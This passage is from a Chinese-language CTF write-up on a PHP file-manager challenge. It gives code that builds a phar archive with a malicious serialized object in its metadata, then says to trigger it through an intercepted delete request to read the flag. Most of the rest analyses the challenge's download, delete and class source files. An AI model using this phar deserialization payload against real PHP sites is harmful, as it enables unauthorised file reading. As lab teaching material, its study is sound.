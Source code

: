```php
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
在删除时使用burpsite抓包，修改参数，即可得到flag。
![phar伪协议](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/phar.png)

#### 原理及源码分析
分析download.php的核心源码可以发现，该文件只有很常规的下载文件操作，并且限制了不能下载文件名中带有flag的文件。
```php
<?php
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    #省略一些代码
    echo $file->close();
} else {
    echo "File not exist";
}
?>
```

接着分析delete.php的代码。
```php
<?php
include "class.php";
if (strlen($filename) < 40 && $file->open($filename)) {
    $file->detele();
    Header("Content-type: application/json");
    $response = array("success" => true, "error" => "");
    echo json_encode($response);
} else {
    Header("Content-type: application/json");
    $response = array("success" => false, "error" => "File not exist");
    echo json_encode($response);
}
?>
```
单独看这段代码没有发现可以利用的地方，这段代码的作用只是返回一个成功或失败的消息。

接着分析class.php。

这个文件中定义了用户和文件相关的类。
```php
<?php
#代码精简一下
class File {
    public $filename;

    public function close() {
        return file_get_contents($this->filename);
    }
}
class User {
    public $db;
    public function __destruct() {
```